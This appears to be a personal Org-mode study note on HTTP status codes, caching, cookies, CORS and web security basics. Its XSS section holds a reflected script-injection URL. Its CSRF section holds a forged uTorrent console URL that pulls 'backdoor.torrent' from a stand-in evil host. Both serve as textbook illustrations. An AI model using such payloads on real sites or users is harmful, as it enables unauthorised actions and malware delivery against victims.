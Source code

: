 #+TITLE: HTTP

* Table of Contents :TOC_2_gh:
- [[#response-status-codes][Response status codes]]
  - [[#204-no-content][204 No Content]]
  - [[#401-unauthorized][401 Unauthorized]]
  - [[#403-forbidden][403 Forbidden]]
  - [[#409-conflict][409 Conflict]]
- [[#topics][Topics]]
  - [[#cache-control][Cache Control]]
  - [[#cookies][Cookies]]
  - [[#accept-vs-content-type][Accept vs. Content-Type]]
  - [[#when-is-the-authorization-header-automatically-sent-by-the-browser][When is the Authorization header automatically sent by the browser?]]
  - [[#basic-access-authentication][Basic access authentication]]
  - [[#web-storage-vs-cookies][Web Storage vs. Cookies]]
  - [[#cors-cross-origin-resource-sharing][CORS (Cross Origin Resource Sharing)]]
  - [[#xss-cross-site-scripting][XSS (Cross-site scripting)]]
  - [[#csrf-cross-site-request-forgery][CSRF (Cross-site request forgery)]]
  - [[#url-vs-uri-vs-urn][URL vs URI vs URN]]
  - [[#valid-url-characters][Valid URL characters]]
  - [[#endpoint][Endpoint]]

* Response status codes
** 204 No Content
- Designates that the client *doesn't need to go away from its current page.*
-----
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/204

** 401 Unauthorized
#+BEGIN_QUOTE
“you aren’t authenticated–either not authenticated at all or authenticated incorrectly–but please reauthenticate and try again.”
#+END_QUOTE

-----
- https://stackoverflow.com/questions/3297048/403-forbidden-vs-401-unauthorized-http-responses

** 403 Forbidden
#+BEGIN_QUOTE
“I’m sorry. I know who you are–I believe who you say you are–but you just don’t have permission to access this resource. Maybe if you ask the system administrator nicely, you’ll get permission. But please don’t bother me again until your predicament changes.”
#+END_QUOTE

-----
- https://stackoverflow.com/questions/3297048/403-forbidden-vs-401-unauthorized-http-responses

** 409 Conflict
- When ~PUT~ request cannot be completed because of a conflict with the current state of the resource.
- It can be okay as a response of ~POST~, but not common because ~POST~ request as a creation would generally cause no conflicts.

-----
- https://stackoverflow.com/questions/3825990/http-response-code-for-post-when-resource-already-exists

* Topics
** Cache Control
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control
*** Request
#+BEGIN_EXAMPLE
  Cache-Control: max-age=<seconds>
  Cache-Control: max-stale[=<seconds>]
  Cache-Control: min-fresh=<seconds>
  Cache-Control: no-cache 
  Cache-Control: no-store
  Cache-Control: no-transform
  Cache-Control: only-if-cached
#+END_EXAMPLE

*** response
#+BEGIN_EXAMPLE
  Cache-Control: must-revalidate
  Cache-Control: no-cache
  Cache-Control: no-store
  Cache-Control: no-transform
  Cache-Control: public
  Cache-Control: private
  Cache-Control: proxy-revalidate
  Cache-Control: max-age=<seconds>
  Cache-Control: s-maxage=<seconds>
#+END_EXAMPLE

** Cookies
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
- https://stackoverflow.com/questions/1336126/does-every-web-request-send-the-browser-cookies

#+BEGIN_QUOTE
Yes, as long as the URL requested is within the same domain and path defined in the cookie
(and all of the other restrictions -- secure, httponly, not expired, etc) hold,
then the cookie will be sent for every request.
#+END_QUOTE

*** Set-Cookie
#+BEGIN_EXAMPLE
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
#+END_EXAMPLE

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies
- Secure   :: The cookies that are set can only be sent over HTTPS
- HttpOnly :: The cookies that are set cannot be retrieved with JS. Only be sent to the designated server.

** Accept vs. Content-Type
- https://webmasters.stackexchange.com/questions/31212/difference-between-the-accept-and-content-type-http-headers

#+BEGIN_QUOTE
~Accept~ header is used by HTTP clients to tell the server what content types they'll accept.
The server will then send back a response, which will include a ~Content-Type~ header
telling the client what the content type of the returned content actually is.
#+END_QUOTE

The ~Content-Type~ header on HTTP Request is for the payload of ~POST~ or ~PUT~, which tells the server how the payload is formed.

** When is the Authorization header automatically sent by the browser?
- https://stackoverflow.com/questions/15427650/when-is-the-authorization-header-automatically-sent-by-the-browser
- https://security.stackexchange.com/questions/172637/will-authorization-bearer-in-request-header-fix-csrf-attacks

Only types like ~Basic~, ~NTLM~ of ~Authorization~ header is sent automatically by browser in following cases:
#+BEGIN_QUOTE
The ~Authorization~ header field allows a user agent to authenticate itself with an origin server --
 usually, but not necessarily, after receiving a 401 (Unauthorized) response.
#+END_QUOTE

On the other hand, other types must explicitly be added by JS.
#+BEGIN_QUOTE
A ~Bearer~ token in the ~Authorization~ header necessarily requires being added by JavaScript
because *the browser will never include it*
#+END_QUOTE

** Basic access authentication
- https://en.wikipedia.org/wiki/Basic_access_authentication

#+BEGIN_QUOTE
Because the BA field(~Authorization: Basic~) has to be sent in the header of *each HTTP request*,
the web browser needs to cache credentials for a reasonable period of time to avoid constantly prompting the user for their username and password.
Caching policy differs between browsers.
Microsoft Internet Explorer by default caches them for 15 minutes.[1]
#+END_QUOTE

** Web Storage vs. Cookies
- https://auth0.com/docs/security/store-tokens
- https://stackoverflow.com/questions/35291573/csrf-protection-with-json-web-tokens

Does your authn token protect anything to do with money?
- You'll probably want the cookie httpOnly secure option.

Is the level of effort required to implement CSRF protection not worth the assets it's protecting?
- Then the Web Storage might be the right place.

*** Web Storage
There are two types of Web Storage:
- localStorage   :: data persists until explicitly deleted.
- sessionStorage :: Once the window is closed, the storage is deleted.

Web Storage is safe from CSRF attacks, since it doesn't automatically send its contents.

However, there are some disadvantages compared to Cookies:
- sandboxed to a specific domain
- accessible through JS, which means that it's vulnerable to XSS attacks

*** Cookies
Disadvantages compared to Web Storages:
- 4KB of max size (it counts all elements like name, value, expiry date)
- vulnerable to CSRF attacks

** CORS (Cross Origin Resource Sharing)
- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS

CORS is for invocations of the [[https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest][XMLHttpRequest]] or [[https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API][Fetch API]], and other resources like images and fonts.

*** Simple Requests
With some limited conditions, CORS works as normal requests by just adding some headers 
like ~Origin~ on requests and ~Access-Control-Allow-Origin~ on responses.
This type of requests is usually a kind of read access, like ~GET~, ~HEAD~, ~POST~

*** Preflighted Requests
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS

If some requests is unable to comply the simple requests conditions, it should go with Preflighted Requests.
With this process, the client sends an ~OPTION~ request first, and make the actual request using the ~OPTION~ response.
This type of requests is usually a kind of write access, like ~PUT~, ~DELETE~

When you send an ~OPTION~ request, you should include some headers like ~Access-Control-Request-Method~, ~Access-Control-Request-Headers~
Here is an example respond of the ~OPTION~ request.
#+BEGIN_EXAMPLE
  Access-Control-Allow-Origin: http://foo.example
  Access-Control-Allow-Methods: POST, GET, OPTIONS
  Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
  Access-Control-Max-Age: 86400
#+END_EXAMPLE

*** XMLHttpRequest.withCredentials and Access-Control-Allow-Credentials
- https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Credentials

If ~withCredentials~ is set to ~true~ on the request, the CORS request will send cookies, ~Authorization~ header, etc.

~Access-Control-Allow-Credentials~: When used as part of a response to a preflight request,
this indicates whether or not the actual request can be made using credentials.
If this response doesn't contain ~Access-Control-Allow-Credentials: true~,
it won't provide the actual response.

The cookie created through this process will be treated as the third party cookie.

*** Same-origin policy
- https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
- https://security.stackexchange.com/questions/8264/why-is-the-same-origin-policy-so-important
- https://en.wikipedia.org/wiki/Same-origin_policy

#+BEGIN_QUOTE
The same-origin policy is a key mechanism implemented within browsers
that is designed to keep content that came from different origins
from interfering with each other.
#+END_QUOTE

Without Same-origin policy, any JS code would access other domains resources. 

[[file:_img/screenshot_2018-03-19_01-16-27.png]]

*** JSONP
:REFERENCES:
- https://en.wikipedia.org/wiki/JSONP
:END:
JSON with Padding. A way to circumvent Same-origin policy before the adoption of ~CORS~.

#+BEGIN_SRC html
  <script type="application/javascript"
          src="http://server.example.com/Users/1234?callback=parseResponse">
  </script>
#+END_SRC

#+BEGIN_SRC js
  parseResponse({"Name": "Foo", "Id": 1234, "Rank": 7});
#+END_SRC

** XSS (Cross-site scripting)
- https://en.wikipedia.org/wiki/Cross-site_scripting

An attacker observes that target website contains a reflected XSS vulnerability:
1. Search feature: If no results were found, the page will display the url with the query term, like http://bobssite.org?q=term.
2. Submit a search query with a term like ~<script type='text/javascript'>alert('xss');</script>~
3. An alert box appears (that says ~xss~).
4. The url is ~http://bobssite.org?q=<script%20type='text/javascript'>alert('xss');</script>~
5. The attacker sends an e-mail which contains a link to the forged url.
6. The victim gets the link and executes the attackers script.

** CSRF (Cross-site request forgery)
- https://en.wikipedia.org/wiki/Cross-site_request_forgery

Force a ~.torrent~ file download:
1. uTorrent's web console is accessible at ~localhost:8080~
2. Forge a url make uTorrent download ~backdoor.torrent~ automatically
   - ~http://localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor.torrent~
3. Inject the forged url as ~<img>~ tag like: ~<img src="<url>">~
4. The victim opens the page containg the tag and download ~backdoor.torrent~ inadvertently.

** URL vs URI vs URN
- https://stackoverflow.com/questions/176264/what-is-the-difference-between-a-uri-a-url-and-a-urn

| Name (Uniform Resource -) | Example                                 | Note                                                                                                         |
|---------------------------+-----------------------------------------+--------------------------------------------------------------------------------------------------------------|
| ~URI~ (Identifier)        | ~https://www.google.co.kr/search?q=uri~ |                                                                                                              |
| ~URL~ (Locator)           | ~https://www.google.co.kr/search~       | Subset of ~URI~, contains only about location                                                                |
| ~URN~ (Name)              | ~urn:google:search:uri~                 | Subset of ~URI~, doesn't necessarily tell you how to locate it on the internet. Usually Prefixed with ~urn:~ |

[[file:_img/screenshot_2017-06-03_15-46-11.png]]

** Valid URL characters
[[file:_img/screenshot_2018-05-11_12-49-59.png]]
-----
- https://stackoverflow.com/questions/7109143/what-characters-are-valid-in-a-url

** Endpoint
- https://stackoverflow.com/questions/9807382/what-is-a-web-service-endpoint
- A web ~endpoint~ is ~URL~ that another program would use to communicate with your program.
